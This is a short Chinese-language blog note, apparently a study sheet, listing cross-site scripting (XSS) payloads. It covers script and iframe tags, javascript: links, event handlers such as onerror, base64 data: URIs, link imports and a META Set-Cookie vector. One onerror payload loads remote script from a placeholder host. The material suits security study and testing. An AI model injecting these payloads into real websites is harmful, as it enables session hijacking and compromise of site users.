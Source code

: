 ```yaml
---
title: XSS笔记
slug: xssbi-ji
date: 2016-12-19T10:54:42.000Z
date_updated: 2016-12-19T10:54:42.000Z
---
```


> XSS标签利用

- 
`<script>`和`<iframe>`

这些标签可以直接执行javascript代码

- 
javascript的伪协议

`<a>`,`<iframe>`

    <iframe src="javascript:alert(xss);"></iframe> 
    <a href="javascript:alert(xss);">xss</a>
    

- 
利用html事件(dom的事件有100多种)

`onload`,`onclick`,`onerror`,`onmousemove`,`onmouseover`等

      <img src="xxx.png" onload="alert('xss')" /> //需要加载成功
      <a onclick="alert('xss')"></a>
      <img src=x onerror=s=createElement('script');body.appendChild(s);s.src='http://xxx/xxx.js';>
    

- 
Data URI 协议(IE不可用)

`<a>`,`<object>`,`<meta>`

      <a href="data:text/html;base64,PHNjcmlwdD5hbGVydCgiWFNTIik8L3NjcmlwdD4=">test</a>  
      <object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgiSGVsbG8iKTs8L3NjcmlwdD4="></object>
      <meta HTTP-EQUIV="refresh" CONTENT="0;url=data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K" /> 
    

- link的href

      <link rel="import" href="https://www.xxx.com/xss"></link> //一个xss页面就行
    

- 
其他

设置cookie：

    <META HTTP-EQUIV="Set-Cookie" Content="USERID=<SCRIPT>alert('XSS')</SCRIPT>">
    

​
